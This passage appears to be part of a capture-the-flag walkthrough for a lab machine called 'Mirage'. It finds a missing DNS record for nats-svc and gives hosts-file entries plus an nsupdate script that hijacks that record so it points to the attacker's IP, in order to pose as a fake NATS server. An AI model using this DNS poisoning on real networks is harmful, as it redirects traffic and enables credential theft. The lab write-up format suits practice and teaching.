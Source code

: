 
## 🚩 Finding `nats-svc`

- `nats-svc.mirage.htb` has no DNS record.
  - This information comes from `Incident_Report_Missing_DNS_Record_nats-svc.pdf`

---

## 🚀 Initial Access & Execution (MITRE ATT&CK: Initial Access, Execution)

### 📝 Add DNS entry on our host

We can use this later for `DNS` poisoning, since the server lacks the record.

```bash
sudo nano /etc/hosts
```

![DNS-entries-for-missing-records](assets/img/DNS-entries-for-missing-records.png)

> `10.10.11.78     dc01.mirage.htb mirage.htb nats-svc.mirage.htb`

### 🕸️ DNS poisoning

Since the DNS allows **dynamic updates** from untrusted sources, we can abuse this.  
We create a `dnsupdate.txt` file, which will point to our `NATS` *(fake)* server.

```bash
nano dnsupdate.txt
```

**`dnsupdate.txt`**

```bash
server 10.10.11.78
zone mirage.htb
update delete nats-svc.mirage.htb A
update add nats-svc.mirage.htb 60 A 10.10.14.213
send
```

> Get your IP with `ip a` and select the IP from `tun0`.

:::info
`nsupdate` is a command-line tool (part of BIND) used to perform dynamic DNS updates (automatically add, modify, or delete DNS records) without editing zone files or restarting the DNS server. It works with DNS servers that support RFC 2136—such as BIND or **Microsoft DNS** with **dynamic updates enabled**.
:::
